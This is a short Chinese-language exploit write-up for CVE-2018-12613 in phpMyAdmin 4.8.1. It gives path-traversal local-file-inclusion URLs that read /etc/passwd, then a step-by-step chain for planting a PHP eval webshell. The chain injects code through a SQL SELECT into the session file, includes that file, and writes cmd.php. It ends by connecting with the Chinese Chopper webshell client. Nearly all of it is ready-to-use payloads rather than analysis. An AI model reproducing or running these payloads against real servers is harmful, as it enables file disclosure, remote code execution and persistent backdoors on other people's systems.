


# phpMyAdmin v4.8.1 本地文件包含 到写入webshell

> CVE 编号： CVE-2018-12613

## poc
```shell script
http://xxxx.com/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```
## poc2
```shell script
http://xxxx.com/index.php?target=sql.php?/../../../../../../../../../etc/passwd
```

## 写入webshell 利用
1. 执行sql 语句 `SELECT "<?php phpinfo();?>"`  
2. 包含session 文件  
    
    `/index.php?target=sql.php?/../../../../../../../../../tmp/sess_7600504195960fdd23197b847708a866
`
    包含session 文件，出现phpinfo  
      
    从phpinfo中搜索`CONTEXT_DOCUMENT_ROOT `可查看web路径   
      
3. 写入webshell   
```sql
select "<?php file_put_contents('/var/www/html/cmd.php','<?php @eval($_POST[pass]);?>')?>"

```
访问 cmd.php 文件已经存在，说明写入成功  


4. 菜刀添加webshell  
 
 

    
